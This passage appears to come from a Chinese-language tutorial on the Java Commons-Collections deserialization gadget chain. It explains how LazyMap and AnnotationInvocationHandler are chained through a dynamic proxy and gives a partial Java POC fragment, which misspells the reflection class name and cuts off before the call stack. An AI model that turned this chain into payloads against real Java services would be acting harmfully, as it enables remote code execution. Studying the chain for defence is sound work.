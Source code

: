 ![](2021-12-26-23-08-05.png)
在其中调用了memberValues.get()方法,当我们把memberValues设置为LazyMap即可.
而AnnotationInvocationHandler本身就是一个InvocationHandler,也就是代理类,利用动态代理机制,被代理对象调用其任意方法前都会触发对应InvocationHandler的invoke方法来进入invoke方法中.
### POC构造
首先修改LazyMap部分,然后将对应的AnnotationInvocationHandler做代理,然后再将该代理放入一个InvocationHandler的memberValues中,利用第二个InvocationHandler#readObject时调用memberValues的方法时就会触发第一个代理的invoke方法了.
```java
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sunm.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
          Map proxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class,
                proxy);        
```
调用栈如下: